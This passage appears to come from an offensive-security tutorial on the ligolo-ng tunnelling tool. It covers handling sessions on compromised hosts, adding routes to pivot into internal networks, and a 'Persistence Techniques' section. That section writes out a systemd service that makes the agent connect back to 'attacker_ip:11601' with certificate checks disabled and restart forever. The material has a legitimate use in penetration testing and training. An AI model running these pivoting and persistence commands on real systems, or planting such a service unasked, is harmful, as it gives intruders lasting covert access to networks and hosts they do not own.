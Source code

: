 ### Handling Multiple Agents

When managing multiple compromised hosts:

```
# List all sessions
ligolo-ng » session

# Jump between sessions
ligolo-ng » session 0
ligolo-ng » session 1

# Name sessions for easier management
ligolo-ng » rename DMZ
```

### Pivoting with Multiple Network Interfaces

When the compromised host has multiple network interfaces:

```
# List all interfaces on the agent
ligolo-ng (192.168.1.5) » ifconfig

# Add routes for each network
sudo ip route add 10.10.10.0/24 dev ligolo
sudo ip route add 192.168.2.0/24 dev ligolo
```

## Persistence Techniques

### Running Agent as a Service

#### Linux Systemd Service

```bash
# Create service file
cat > /etc/systemd/system/ligolo-agent.service << EOF
[Unit]
Description=Ligolo Agent Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/agent -connect attacker_ip:11601 -ignore-cert
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF

# Enable and start the service
systemctl enable ligolo-agent.service
systemctl start ligolo-agent.service
```
